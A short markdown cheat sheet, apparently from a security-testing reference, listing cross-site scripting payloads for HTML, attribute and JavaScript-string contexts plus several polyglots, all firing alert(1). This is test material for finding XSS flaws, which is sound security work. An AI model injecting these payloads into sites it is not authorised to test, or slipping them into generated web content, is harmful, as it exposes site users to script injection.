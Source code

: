 # Payloads (XSS)

## HTML context
```html
<script>alert(1)</script>
```

## Attribute context
```html
"><img src=x onerror=alert(1)>
```

## JS string context
```js
'-alert(1)-'
";alert(1);//
```

## Polyglots
```
"><svg onload=alert(1)>
</script><script>alert(1)</script>
"><iframe srcdoc='<script>alert(1)</script>'>
```
